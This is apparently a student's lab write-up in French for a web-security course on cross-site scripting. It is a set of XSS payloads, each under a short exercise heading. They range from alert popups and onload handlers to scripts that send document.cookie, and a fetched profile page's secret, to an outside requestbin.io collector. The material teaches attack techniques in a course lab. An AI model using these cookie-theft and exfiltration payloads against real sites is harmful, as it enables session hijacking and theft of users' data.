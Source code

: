 # S7 : Vulnérabilité WEB -XSS

## Exercice 1 

### a) Alert Popup 

```javascript
<script>alert("I hacked you")</script>
```

### b) Document Cookies

```javascript
<script>console.log(document.cookie)</script>
```

### c) Mettre les balises en majuscule

```javascript
<SCRIPT>console.log(document.cookie)</SCRIPT>
```
```javascript
<SCRIPT>alert("I hacked you")</SCRIPT>
```
### d) utiliser des buttons avec event, en donnant du JS dans l'attribut onClick

```javascript
<SCRIPT >alert("I hacked you")</SCRIPT >
```
```javascript
<SCRIPT >alert(document.cookie)</SCRIPT >
```

### e) utiliser des propriétés du type onLoad dans la balise body

```javascript
<body onload="alert(document.cookie)"></body>
```
```javascript
<body onload="alert('I hacked you')"></body>
```
## Exercice 2 

### a) Envoie des cookies à l'aide d'un objet XMLHttpRequest

```javascript
<script>
var http = new XMLHttpRequest(); http.open("POST", "https://requestbin.io/1i1r4xf1", true); http.send(document.cookie);
</script>
```
```javascript
var http = new XMLHttpRequest(); http.open("POST", "https://requestbin.io/1i1r4xf1", true); http.send(document.cookie);

```

### b)  Envoyez une balise script et s'envoyer le code qui s'execute sur la machine de l'admin
```javascript
<script>
var http = new XMLHttpRequest(); http.open("POST", "https://requestbin.io/1i1r4xf1", true); http.send(document.cookie);
</script>
```

### c) Correct Utilisation de XMLHttpRequest + propriété onLoad
```javascript
<script>
var http1 = new XMLHttpRequest();
http1.open("GET", "https://labosecuipl.alwaysdata.net/21/s07/ex2b/profile/", true);

http1.onload = () => {
    var http = new XMLHttpRequest();
    http.open("POST", "https://requestbin.io/1i1r4xf1", true);
    http.send(http1.response)
}
http1.send();
</script>
```
```html
<p>
    Your secret is : 
    <span id="secret">
        BigBrother is watching you !Or is he ?
    </span>
</p>
```

